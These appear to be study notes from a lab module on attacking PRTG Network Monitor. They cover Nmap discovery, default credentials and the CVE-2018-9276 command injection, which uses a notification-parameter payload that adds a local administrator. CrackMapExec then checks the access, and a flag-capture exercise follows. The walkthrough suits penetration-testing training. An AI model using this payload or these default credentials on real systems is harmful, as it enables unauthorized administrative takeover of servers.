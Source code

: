 ```yaml
---
description: >-
  Agentless network monitor to monitor bandwidth usage, uptime and collect
  statistics from various hosts, including routers, switches, servers, and more.
---
```


# PRTG Network Monitor

## Intro

* PRTG was released, restricted to 100 sensors that can be used to monitor up to 20 hosts
* It works with an autodiscovery mode to scan areas of a network and create a device list
* it can gather further information from the detected devices using protocols such as ICMP, SNMP, WMI, NetFlow, and more
* Devices can also communicate with the tool via a REST API
* The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS
*

## Discovery/Footprinting/Enumeration

**discover PRTG from an Nmap scan**

```shell-session
sudo nmap -sV -p- --open -T4 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 15:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.06% done
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 65492 closed ports, 24 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.17 seconds
```

typically found on common web ports such as 80, 443, or 8080.

we can see the service `Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)` detected on port 8080.

PRTG also shows up in the EyeWitness scan we performed earlier. Here we can see that EyeWitness lists the default credentials `prtgadmin:prtgadmin`.( pre-filled login )

![EyeWitness](https://academy.hackthebox.com/storage/modules/113/prtg\_eyewitness.png)

Once we have discovered PRTG, we can confirm by browsing to the URL and are presented with the login page.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_login.png" alt=""><figcaption><p>http://10.129.201.50:8080/index.htm</p></figcaption></figure>

it seems to be PRTG version `17.3.33.2830` and is likely vulnerable to [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276) which is an authenticated command injection

Using `cURL` we can see that the version number is indeed `17.3.33.283`.

```shell-session
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version

  <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=17.3.33.2830__" media="print,screen,projection" />
<div><h3><a target="_blank" href="https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors">New PRTG release 21.3.70 with new Azure, HPE, and Redfish sensors</a></h3><p>Just a short while ago, I introduced you to PRTG Release 21.3.69, with a load of new sensors, and now the next version is ready for installation. And this version also comes with brand new stuff!</p></div>
    <span class="prtgversion">&nbsp;PRTG Network Monitor 17.3.33.2830 </span>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_logged_in.png" alt=""><figcaption><p><code>prtgadmin:Password123</code></p></figcaption></figure>

### Leveraging Known Vulnerabilities

This excellent [blog post](https://www.codewatch.org/blog/?p=453) by the individual who discovered this flaw does a great job of walking through the initial discovery process and how they discovered it.

When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_notifications.png" alt=""><figcaption><p>Setup > Account Settings > Notifications</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_add.png" alt=""><figcaption><p><code>Add new notification</code></p></figcaption></figure>

* Scroll down and tick EXECUTE PROGRAM
* Program File -> select `Demo exe notification - outfile.ps1`

we will add a new local admin user by entering `test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add`.

![edit settings](https://academy.hackthebox.com/storage/modules/113/prtg\_execute.png)

then click Save and we will be redirectoed to Notifications

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_pwn.png" alt=""><figcaption><p>New notification (pwn)</p></figcaption></figure>

click the `Test` button to run our notification and execute the command to add a local admin user. we will get a pop-up that says `EXE notification is queued up`.

Since this is a blind command execution, we won't get any feedback, so we'd have to either check our listener for a connection back or, in our case, check to see if we can authenticate to the host as a local admin.

We can use `CrackMapExec` to confirm local admin access. We could also try to RDP to the box, access over WinRM, or use a tool such as [evil-winrm](https://github.com/Hackplayers/evil-winrm) or something from the [impacket](https://github.com/SecureAuthCorp/impacket) toolkit such as `wmiexec.py` or `psexec.py`.

```shell-session
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 

SMB         10.129.201.50   445    APP03            [*] Windows 10.0 Build 17763 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.201.50   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

## Assessment

What version of PRTG is running on the target?

```
sudo nmap 10.129.249.52 -sV -T4                                                  
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-13 04:36 EDT
Nmap scan report for 10.129.249.52
Host is up (0.22s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8000/tcp open  ssl/http      Splunkd httpd
8080/tcp open  http          Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.57 seconds

```

_**18.1.37.13946**_

Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop

login using `prtgadmin:Password123`

<figure><img src="../../../.gitbook/assets/ภาพ (16).png" alt=""><figcaption><p><code>test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add</code></p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ภาพ (14).png" alt=""><figcaption><p>click the bell icon</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ภาพ (15).png" alt=""><figcaption><p>done</p></figcaption></figure>

```
sudo crackmapexec smb 10.129.249.52 -u prtgadm1 -p Pwn3d_by_PRTG! 
SMB         10.129.249.52   445    APP03            [*] Windows 10.0 Build 17763 x64 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.249.52   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

